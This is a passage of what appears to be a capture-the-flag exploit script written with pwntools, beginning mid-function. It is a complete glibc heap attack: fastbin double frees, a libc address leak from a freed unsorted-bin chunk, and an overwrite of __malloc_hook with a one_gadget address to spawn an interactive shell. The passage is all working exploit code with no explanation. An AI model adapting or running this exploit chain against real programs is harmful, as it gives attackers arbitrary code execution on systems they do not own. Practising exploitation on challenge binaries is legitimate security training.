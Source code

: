 ```
	p.recvuntil('size?\n')
	p.sendline(str(size))
	p.recvuntil('ontent?\n')
	p.send(content)

def delete(index):
	p.recvuntil('4. exit\n')
	p.sendline('2')
	p.recvuntil('index?\n')
	p.sendline(str(index))

def show(index):
	p.recvuntil('4. exit\n')
	p.sendline('3')
	p.recvuntil('index?\n')
	p.sendline(str(index))


p.recvuntil('your name?\n')
p.send(p64(0)+p64(0x60))

new(0x50,'\x00'*0x50) #0
new(0x50,'\x11'*0x50) #1
delete(0)
delete(1)
delete(0)

new(0x50,p64(0x602060))
new(0x50,'\x33'*0x50)
new(0x50,'\x44'*0x50)
payload = p64(0) + p64(0x1000) + p64(0)*8
new(0x50,payload)

new(0x80,'\x00') #0
new(0x60,'\x11'*0x60) #1
delete(0)
show(0)
p.recvuntil('0: ')
libcbase = u64(p.recv(6).ljust(8,'\x00')) - (0x7f54cfedab78-0x00007f54cfb16000)
log.success('libcbase = '+hex(libcbase))

new(0x60,'\x22'*0x60)
delete(1)
delete(2)
delete(1)

new(0x60,p64(libcbase+libc.sym['__malloc_hook']-0x23))
new(0x60,'\x00')
new(0x60,'\x00')
one_gadget = [0x4526a,0x45216,0xf02a4,0xf1147]
payload = '\x00'*0x13 + p64(libcbase+one_gadget[2])
new(0x60,payload)

delete(6)

if attach == 1:
	gdb.attach(p)
p.interactive()
```
